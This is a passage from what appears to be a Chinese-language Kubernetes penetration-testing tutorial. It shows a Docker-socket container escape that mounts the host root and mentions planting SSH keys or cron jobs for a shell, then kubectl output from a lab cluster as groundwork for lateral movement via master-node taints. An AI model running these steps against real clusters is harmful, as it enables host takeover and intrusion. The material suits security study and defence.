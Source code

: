 运行一个新容器并挂载宿主机根路径

```c
docker -H unix:///var/run/docker.sock run -it -v /:/host ubuntu /bin/bash
```

在新容器的/host 目录下，就可以访问到宿主机的全部资源，接下来可以写入 ssh 密钥或者写入计划任务，获取 shell

### 横向移动

污点是 K8s 高级调度的特性，用于限制哪些 Pod 可以被调度到某一个节点。一般主节点包含一个污点，这个污点是阻止 Pod 调度到主节点上面，除非有 Pod 能容忍这个污点。而通常容忍这个污点的 Pod 都是系统级别的 Pod，例如 kube-system  
![在这里插入图片描述](assets/1711471683-e7d75434dfd91df93a7f8f9517694848.png)

```bash
#Node中查看节点信息
[root@node1 ~]# kubectl get nodes
NAME              STATUS                     ROLES    AGE   VERSION
192.168.238.129   Ready,Sche/du/lingDisabled   master   30d   v1.21.0
192.168.238.130   Ready,Sche/du/lingDisabled   master   30d   v1.21.0
192.168.238.131   Ready                      node     30d   v1.21.0
192.168.238.132   Ready                      node     30d   v1.21.0
```

```bash
#确认Master节点的容忍度
[root@node1 ~]# kubectl describe nodes 192.168.238.130
Name:               192.168.238.130
Roles:              master
Labels:             beta.kubernetes.io/arch=amd64
                    beta.kubernetes.io/os=linux
                    kubernetes.io/arch=amd64
                    kubernetes.io/hostname=192.168.238.130
                    kubernetes.io/os=linux
                    kubernetes.io/role=master
Annotations:        flannel.alpha.coreos.com/backend-data: {"VtepMAC":"66:3b:20:6a:eb:ff"}
                    flannel.alpha.coreos.com/backend-type: vxlan
                    flannel.alpha.coreos.com/kube-subnet-manager: true
                    flannel.alpha.coreos.com/public-ip: 192.168.238.130
                    node.alpha.kubernetes.io/ttl: 0
```